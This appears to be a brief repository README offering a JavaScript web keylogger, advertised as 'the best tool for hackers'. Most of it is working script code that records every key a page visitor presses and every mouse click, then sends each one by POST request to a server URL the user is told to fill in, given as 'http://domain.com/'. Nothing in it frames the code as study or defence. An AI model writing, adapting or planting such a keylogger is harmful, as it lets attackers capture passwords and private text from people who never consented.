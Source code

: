 # keylogger
a web keylogger!

***
This web keylogger can be the best tool for hackers
***

<h1 style="color: red;">
Keylogger Sources
</h1>

```
<script>

(function(){
	var server = "http://domain.com/";  //enter your page URL
	document.addEventListener("keyup", function(e){
		var x = new XMLHttpRequest();
		x.open("POST", server, true);
		x.send(e.key);
	});
	
	document.addEventListener("click", function(e){
		var click;
		if(e.which == 1){
			click = " Left Click ";
		}else{
			click = " Right Click ";
		}
		
		var x = new XMLHttpRequest();
		x.open("POST", server, true);
		x.send(click);
	});
})();
</script>

```
# bye :)
